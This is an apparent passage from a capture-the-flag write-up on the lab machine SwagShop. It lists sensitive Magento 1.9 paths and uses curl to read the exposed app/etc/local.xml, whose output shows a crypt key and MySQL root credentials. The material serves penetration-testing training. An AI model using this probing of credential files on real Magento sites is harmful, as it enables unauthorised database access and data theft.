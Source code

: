 **Valuable Information**

- Magento `Community Edition` Version `1.9.0.0, 1.9.0.1`.
- Some pages to visite:
    - `app/etc/local.xml`
    - `index.php/rss/order/NEW/new`
    - `shell/`
    - `var/export/`   

- I’ll be skipping any directories or pages that don’t seem to have valuable info.

#### /app/etc/local.xml

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop]                                   
└─$ curl swagshop.htb/app/etc/local.xml 
<config>
    <global>
        <install>
            <date><![CDATA[Wed, 08 May 2019 07:23:09 +0000]]></date>
        </install>
        <crypt>
            <key><![CDATA[b355a9e0cd018d3f7f03607141518419]]></key>
        </crypt>
        <disable_local_modules>false</disable_local_modules>
        <resources>
            <db>
                <table_prefix><![CDATA[]]></table_prefix>
            </db>
            <default_setup>
                <connection>
                    <host><![CDATA[localhost]]></host>
                    <username><![CDATA[root]]></username>
                    <password><![CDATA[fMVWh7bDHpgZkyfqQXreTjU9]]></password>
                    <dbname><![CDATA[swagshop]]></dbname>
                    <initStatements><![CDATA[SET NAMES utf8]]></initStatements>
                    <model><![CDATA[mysql4]]></model>
                    <type><![CDATA[pdo_mysql]]></type>
                    <pdoType><![CDATA[]]></pdoType>
                    <active>1</active>
                </connection>
            </default_setup>
        </resources>
        <session_save><![CDATA[files]]></session_save>
    </global>
    <admin>
        <routers>
            <adminhtml>
                <args>
                    <frontName><![CDATA[admin]]></frontName>
                </args>
            </adminhtml>
        </routers>
    </admin>
</config>

```
